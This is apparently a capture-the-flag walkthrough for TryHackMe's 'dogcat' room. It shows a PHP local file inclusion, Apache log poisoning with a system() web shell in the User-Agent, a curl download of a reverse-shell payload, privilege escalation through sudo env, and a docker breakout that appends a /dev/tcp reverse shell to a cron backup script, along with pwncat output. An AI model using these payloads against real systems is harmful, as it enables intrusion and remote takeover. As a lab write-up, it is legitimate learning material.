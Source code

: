 ```yaml
---

title: dogcat
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/dogcat
Description: a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.
tags: php, lfi, docker, security
---
```


* * * 

# Notes

4 flags for this task.

start by booting up the machine and performing my nmap scans. `nmap -p- dogcat.thm -vvv`. Also check out the website. Here we see a question cats or dogs...hard choice both good but these seem to be calling a view function in the php. Should see if we can check for LFI. Booting up burpsuite.

lets try to bypass with directory traversal

<img src="/assets/dogcat01.png">

the base64 is the encoded index.php

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

going to run a few gobuster scans 

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php`

and

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x txt,php`

we find a few different files, flag.php 

```
/index.php            (Status: 200) [Size: 418]
/cat.php              (Status: 200) [Size: 26]
/flag.php             (Status: 200) [Size: 0]
/cats                 (Status: 301) [Size: 307] [--> http://dogcat.thm/cats/]
/dogs                 (Status: 301) [Size: 307] [--> http://dogcat.thm/dogs/]
/dog.php              (Status: 200) [Size: 26]
```

sending the request for flag.php through burpsuite repeater gets us our first flag.

our nmap scan shows the server is running apache. we can try to get code execution with log poisoning.

access the log for apache is at `/var/log/apache2/access.log` so we can try to view it like this `/?view=./dog/../../../../../../../var/log/apache2/access/log&ext`

we can edit our user-agent parameter to this php script to use for the log code execution `<?php system($_GET['cmd']);?>`

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami HTTP/1.1`

we can see the response www-data. lets try to get a reverse shell.

setting up pwncat listener. `pwncat-cs -lp 6669`, and gets get a pentestmonkey shell from <a href="https://www.revshells.com/">revshells.com</a> and setup a python webserver then curl or wget it to the server.

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl+http%3a//10.2.3.64/rev.php+-o+rev.php`

we are now setup on the system with a www-data reverse shell. we can run linpeas in tmp to check for quick escalation.

checking `sudo -l` we are allowed to run `env` as root. `env` we can used this to break out of this enviroment by spawning an interactive shell with `sudo env /bin/sh`.

we can pickup the 3rd flag in `/root/`

missing the second flag... quick `find / -name *flag` finds it.

now time to break out of the docker.

checking the backup we can see that the date is much more recent than the script so the backup much be run regularly on the target machine. we can take advantage of this and edit the script to send us back a reverse shell.

```
(remote) root@3754df62901f:/opt/backups$ echo "#!/bin/bash" > backup.sh
(remote) root@3754df62901f:/opt/backups$ echo "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1" >> backup.sh
```

and we should recieve a connection back soon on 6669

```
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:44:04] 10.10.48.124:48848: normalizing shell path                                                                                                                                               manager.py:957
[04:44:06] 10.10.48.124:48848: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:44:08] 10.10.48.124:48848: registered new host w/ db                                                                                                                                            manager.py:957
(local) pwncat$ sessions
[04:44:41] listener: 0.0.0.0:6669: connection from 10.10.48.124:48848 aborted: channel receive timed out: b'RNuShuMhU7VfPUvEQ\n/c/pass 1512 4 0ca02  1 0  16712437 18949835249 0 6\nCUaT8\nEBfk6\n' manager.py:957
           warning: 10.10.48.124:48848: channel closed                                                                                                                                              manager.py:957
(local) pwncat$ sessions
                                    Active Sessions                                    
     ╷      ╷                                  ╷          ╷      ╷                     
  ID │ User │ Host ID                          │ Platform │ Type │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪══════╪════════════════════ 
  *0 │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind │ 10.10.48.124:35818  
     ╵      ╵                                  ╵          ╵      ╵                     
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:45:04] 10.10.48.124:48850: normalizing shell path                                                                                                                                               manager.py:957
[04:45:06] 10.10.48.124:48850: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:45:08] 10.10.48.124:48850: loaded known host from db                                                                                                                                            manager.py:957
[04:45:11] listener: 0.0.0.0:6669: linux session from 10.10.48.124:48850 established                                                                                                                manager.py:957
(local) pwncat$ sessions
                                     Active Sessions                                     
     ╷      ╷                                  ╷          ╷        ╷                     
  ID │ User │ Host ID                          │ Platform │ Type   │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪════════╪════════════════════ 
  0  │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind   │ 10.10.48.124:35818  
  *1 │ root │ 6fce223e51db7cddc12b57468a770298 │ linux    │ Socket │ 10.10.48.124:48850  
     ╵      ╵                                  ╵          ╵        ╵                     
(local) pwncat$ sessions 1
[04:45:30] targeting session-1 (10.10.48.124:48850)                                                                                                                                                 sessions.py:88
(local) pwncat$                                                                                                                                                                                                   
(remote) root@dogcat:/root# ls -las
total 40
4 drwx------  6 root root 4096 Apr  8  2020 .
4 drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
0 lrwxrwxrwx  1 root root    9 Mar 10  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
4 drwx------  2 root root 4096 Apr  8  2020 .cache
4 drwxr-xr-x  5 root root 4096 Mar 10  2020 container
4 -rw-r--r--  1 root root   80 Mar 10  2020 flag4.txt
4 drwx------  3 root root 4096 Apr  8  2020 .gnupg
4 drwxr-xr-x  3 root root 4096 Apr  8  2020 .local
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root   66 Mar 10  2020 .selected_editor
(remote) root@dogcat:/root# cat flag4.txt
```


